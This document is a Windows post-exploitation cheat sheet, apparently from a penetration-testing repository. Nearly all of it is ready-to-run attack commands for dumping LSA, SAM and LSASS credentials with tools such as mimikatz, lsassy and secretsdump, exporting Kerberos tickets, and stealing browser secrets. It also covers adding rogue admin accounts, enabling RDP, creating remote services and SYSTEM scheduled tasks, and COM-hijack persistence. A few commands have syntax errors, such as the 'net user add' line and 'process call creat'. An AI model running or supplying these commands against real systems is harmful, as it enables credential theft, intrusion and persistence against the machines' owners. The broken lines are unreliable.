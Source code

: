 # Post-Ex Windows

## **Dump secrets**

### LSA

```bash
crackmapexec smb perim_up.txt -u '<user>' -d '<domain>' -p '<pass>' --lsa
```

### SAM
```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --sam

reg save hklm\sam .\sam reg save hklm\system .\system reg save hklm\security .\security 
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL

```
### LSASS 
```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> -M lsassy

lsassy -d '.' -u 'Administrateur' -H '<hash>' <ip>
lsassy -d <domain> -u <user> -p <pass> <ip>

./spraykatz.py -u <user> -p <password> -t <ip>

pypykatz lsa minidump lsass.dmp

procdump.exe --accepteula -ma lsass c:\WINDOWS\Temp\lsass.txt

.\mimikatz.exe "log" "privilege::debug" "sekurlsa::logonpasswords" exit
```

### Kerberos 

```bash
.\mimikatz.exe "log" "privilege::debug" "kerberos::list /export" exit

```

### Browser secrets

```bash
sharpchrome.exe
```

## Create/add new local admin account 

```bash
net user add <user> <pass>
net localgroup "Administrators" <user> /add
```

## Enable RDP

```bash
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
```

add user to RDP group

```bash
net localgroup "Remote Desktop Users" <user> /add
```

## Create service 

```bash
New-Service -BinaryPathName C:\Users\sqlServer\Documents\system2.exe -Name syshell -DisplayName syshell -StartupType Automatic 
Start-Service syshell
```
or 

```
sc \192.168.1.2 create <ServiceName> binpath= C:\windows\system32\calc.exe
```
> \192.168.1.2 is optional


To check if service working well, you can reboot like this: 

`wmic /node:192.168.1.2 os get buildnumber` then 

`wmic /node:192.168.1.2 os where buildnumber="<Number>" call reboot` 


## Execute binary using WMIC

```
wmic /node:192.168.1.2 process call creat “C:\windows\system32\calc.exe”
```
>/node is optional


## Stop processus

Run this to get processid : `sc \192.168.1.1 query <Service Name>` 

then : `wmic /node:192.168.1.2 process where processid=<ID> call terminate` 
>/node is optional

also you can do this `tasklist /PID <Service Name>`

and then `taskkill /S 192.1.12.2 /PID XXX`
>/S is optional


## Create Scheduled tasks

```
schtasks /create /S 192.156.1.2 /tn <name> /sc once /sd 01/01/1910 /ru system /tr “C:\windows\system32\calc.exe”
```
> ru <user>, and /S is optional
> To check if tasks has been created run this `schtasks /s 192.156.1.2 /query /tn <name>`



## COM hijack

```bash
schtasks /query /xml > tasks.xml
reg query "HKCR\CLSID\{<COM_CLSID>}\Inprocserver32"
reg query "HKCU\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32"
reg query "HKLM\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32"
reg export "HKLM\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32" export.reg

# Change to HKCU and change dll
reg import export.reg /reg:64
reg query "HKCR\CLSID\{<COM_CLSID>}\Inprocserver32"
reg query "HKCU\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32"

```

## Disconnect User 

`rwinsta /server:192.168.1.2 <sessionId>`
>to get sessionId please run this `qwinsta` 


`wmic /node:192.168.1.2 os get buildnumber`

